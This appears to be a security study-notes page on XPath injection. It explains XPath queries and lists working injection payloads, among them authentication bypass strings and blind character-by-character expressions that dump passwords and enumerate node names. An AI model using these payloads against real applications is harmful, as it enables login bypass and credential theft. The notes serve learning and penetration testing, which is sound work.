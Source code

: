 ```yaml
---
layout: page
title:  "XPath injections"
permalink: "xpath-injections.html"
tags: [security, injections, web]
---
```

# Introduction
* XPath: XML Path Language. Interpreted language to navigate XML documents.
  XPath expression: sequence of steps required to navigate from one node to another
* XML files used to store applications configuration, and sometimes credentials, roles and privileges
* Single quotes not needed for numeric values
* Keywords and tag names in XML documents are case-sensitive
* Strategy: when regular SQL injections fail, it might be an XPath injection

# Example of queries
* Retrieve all email addresses: `//address/email/text()`
* Retrieve all information under `address` for the user Dawes: `//address[surname/text()='Dawes']`
* Credential verification: `//address[surname/text()='$user' and password/text()='$pass']`
* Access 2nd node of the first user: `//user[position()=1]/child::node()[position()=2]/text()`
* Count the number of nodes of all users: `count(//user/child::node())`
* Length of string: `stringlength(//address/email/text())`
* Substring extraction: `substring(//user/name/text(), start, n_char)`


# Injections
* Testing: `'`, `' or 'a'='a`
* `//address[surname/text()]='Dawes' and password/text()='' or 'a'='a']/ccard/text()`
* Password dump: `' or //address[surname/text()='Dave' and substring(password/text(), 1, 1)= 'A'] and 'a'='a` return results if the first letter or the password is 'A'
* For strings:
  * `' or count(parent::*[position()=1])=0 or 'a'='b`
  * `' or count(parent::*[position()=1])>0 or 'a'='b`
* If numeric:
  * `1 or count(parent::*[position()=1])=0`
  * `1 or count(parent::*[position()=1])>0`
* Current's node parent name:
```
' or substring(name(parent::*[position()=1]), 1, 1) = 'a
' or substring(name(parent::*[position()=1]), 1, 1) = 'b
' or substring(name(parent::*[position()=1]), 2, 1) = 'a
' or substring(name(parent::*[position()=1]), 2, 1) = 'b
' or substring(name(parent::*[position()=1]), 2, 1) = 'c
```
* `substring(//parentnodename[position()=1]/child::node()[position()=1]/text(), 1, 1)='a'`



# Resources
* XPath injection - authentication Root-me solutions
* XPath memo: EN - Introduction to Xpath injection techniques.pdf
* [Xcat tool](https://github.com/orf/xcat)
